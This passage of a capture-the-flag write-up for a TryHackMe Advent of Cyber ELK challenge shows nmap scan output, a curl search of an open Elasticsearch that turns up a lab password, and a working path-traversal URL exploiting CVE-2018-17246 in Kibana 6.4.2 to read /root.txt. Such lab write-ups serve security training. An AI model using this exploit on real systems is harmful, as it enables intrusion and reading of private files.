|   GetRequest:
|     HTTP/1.1 200 OK
|     kbn-name: kibana
|     kbn-xpack-sig: 5a29ca259924bec4872ad69d3677ec71
|     cache-control: no-cache
|     content-type: text/html; charset=utf-8
|     content-length: 217
|     accept-ranges: bytes
|     Date: Sat, 03 Oct 2020 14:03:15 GMT
|     Connection: close
|     <script>var hashRoute = '/app/kibana';
|     defaultRoute = '/app/kibana';
|     hash = window.location.hash;
|     (hash.length) {
|     window.location = hashRoute + hash;
|     else {
|     window.location = defaultRoute;
|     }</script>
|   HTTPOptions:
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: 5a29ca259924bec4872ad69d3677ec71
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 38
|     Date: Sat, 03 Oct 2020 14:03:15 GMT
|     Connection: close
|_    {"statusCode":404,"error":"Not Found"}
8000/tcp open  http      SimpleHTTPServer 0.6 (Python 3.7.4)
|_http-server-header: SimpleHTTP/0.6 Python/3.7.4
|_http-title: Directory listing for /
9200/tcp open  http      Elasticsearch REST API 6.4.2 (name: sn6hfBl; cluster: elasticsearch; Lucene 7.4.0)
| http-methods:
|_  Potentially risky methods: DELETE
|_http-title: Site doesn't have a title (application/json; charset=UTF-8).
9300/tcp open  vrace?
| fingerprint-strings:
|   FourOhFourRequest, GetRequest, HTTPOptions, RTSPRequest, SIPOptions:
|_    This is not an HTTP port
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port5601-TCP:V=7.80%I=7%D=10/3%Time=5F7883EC%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,1D3,"HTTP/1\.1\x20200\x20OK\r\nkbn-name:\x20kibana\r\nkbn-xpac
SF:k-sig:\x205a29ca259924bec4872ad69d3677ec71\r\ncache-control:\x20no-cach
SF:e\r\ncontent-type:\x20text/html;\x20charset=utf-8\r\ncontent-length:\x2
SF:0217\r\naccept-ranges:\x20bytes\r\nDate:\x20Sat,\x2003\x20Oct\x202020\x
SF:2014:03:15\x20GMT\r\nConnection:\x20close\r\n\r\n<script>var\x20hashRou
SF:te\x20=\x20'/app/kibana';\nvar\x20defaultRoute\x20=\x20'/app/kibana';\n
SF:\nvar\x20hash\x20=\x20window\.location\.hash;\nif\x20\(hash\.length\)\x
SF:20{\n\x20\x20window\.location\x20=\x20hashRoute\x20\+\x20hash;\n}\x20el
SF:se\x20{\n\x20\x20window\.location\x20=\x20defaultRoute;\n}</script>")%r
SF:(HTTPOptions,117,"HTTP/1\.1\x20404\x20Not\x20Found\r\nkbn-name:\x20kiba
SF:na\r\nkbn-xpack-sig:\x205a29ca259924bec4872ad69d3677ec71\r\ncontent-typ
SF:e:\x20application/json;\x20charset=utf-8\r\ncache-control:\x20no-cache\
SF:r\ncontent-length:\x2038\r\nDate:\x20Sat,\x2003\x20Oct\x202020\x2014:03
SF::15\x20GMT\r\nConnection:\x20close\r\n\r\n{\"statusCode\":404,\"error\"
SF::\"Not\x20Found\"}")%r(RTSPRequest,1C,"HTTP/1\.1\x20400\x20Bad\x20Reque
SF:st\r\n\r\n")%r(RPCCheck,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n"
SF:)%r(DNSVersionBindReqTCP,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n
SF:")%r(DNSStatusRequestTCP,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n
SF:")%r(Help,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(SSLSession
SF:Req,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(TerminalServerCo
SF:okie,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(TLSSessionReq,1
SF:C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(Kerberos,1C,"HTTP/1\.
SF:1\x20400\x20Bad\x20Request\r\n\r\n")%r(SMBProgNeg,1C,"HTTP/1\.1\x20400\
SF:x20Bad\x20Request\r\n\r\n")%r(X11Probe,1C,"HTTP/1\.1\x20400\x20Bad\x20R
SF:equest\r\n\r\n")%r(FourOhFourRequest,12D,"HTTP/1\.1\x20404\x20Not\x20Fo
SF:und\r\nkbn-name:\x20kibana\r\nkbn-xpack-sig:\x205a29ca259924bec4872ad69
SF:d3677ec71\r\ncontent-type:\x20application/json;\x20charset=utf-8\r\ncac
SF:he-control:\x20no-cache\r\ncontent-length:\x2060\r\nDate:\x20Sat,\x2003
SF:\x20Oct\x202020\x2014:03:16\x20GMT\r\nConnection:\x20close\r\n\r\n{\"st
SF:atusCode\":404,\"error\":\"Not\x20Found\",\"message\":\"Not\x20Found\"}
SF:");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port9300-TCP:V=7.80%I=7%D=10/3%Time=5F7883EC%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,18,"This\x20is\x20not\x20an\x20HTTP\x20port")%r(HTTPOptions,18
SF:,"This\x20is\x20not\x20an\x20HTTP\x20port")%r(RTSPRequest,18,"This\x20i
SF:s\x20not\x20an\x20HTTP\x20port")%r(FourOhFourRequest,18,"This\x20is\x20
SF:not\x20an\x20HTTP\x20port")%r(SIPOptions,18,"This\x20is\x20not\x20an\x2
SF:0HTTP\x20port");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/3%OT=22%CT=1%CU=32682%PV=Y%DS=2%DC=T%G=Y%TM=5F7883F
OS:D%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=102%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST1
OS:1NW7%O6=M508ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN
OS:(R=Y%DF=Y%T=FF%W=6903%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=FF%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=FF%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=FF%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=FF%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=FF%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=FF%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=FF%CD
OS:=S)

Network Distance: 2 hops

TRACEROUTE (using port 143/tcp)
HOP RTT      ADDRESS
1   33.09 ms 10.8.0.1
2   33.40 ms 10.10.36.177

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 69.10 seconds
```

1. Find the password in the database

- [Search API](https://www.elastic.co/guide/en/elasticsearch/reference/current/search-search.html)

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ curl -X GET "10.10.36.177:9200/_search?q=password&pretty"
{
  "took" : 98,
  "timed_out" : false,
  "_shards" : {
    "total" : 6,
    "successful" : 6,
    "skipped" : 0,
    "failed" : 0
  },
  "hits" : {
    "total" : 1,
    "max_score" : 2.0136302,
    "hits" : [
      {
        "_index" : "messages",
        "_type" : "_doc",
        "_id" : "73",
        "_score" : 2.0136302,
        "_source" : {
          "sender" : "mary",
          "receiver" : "wendy",
          "message" : "hey, can you access my dev account for me. My username is l33tperson and my password is 9Qs58Ol3AXkMWLxiEyUyyf"
        }
      }
    ]
  }
}
```

`9Qs58Ol3AXkMWLxiEyUyyf`

1. Read the contents of the /root.txt file

- [Kibana Status](<http://10.10.36.177:5601/status#?_g=()>)



`Kibana 6.4.2`

- [CVE-2018-17246 - Kibana LFI < 6.4.3 & 5.6.13](https://github.com/mpgn/CVE-2018-17246)

`http://10.10.36.177:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../root.txt`

- [Directory listing for /](http://10.10.36.177:8000/)



- [http://10.10.36.177:8000/kibana-log.txt](http://10.10.36.177:8000/kibana-log.txt)



`someELKfun`

## [Day 25] Challenge-less
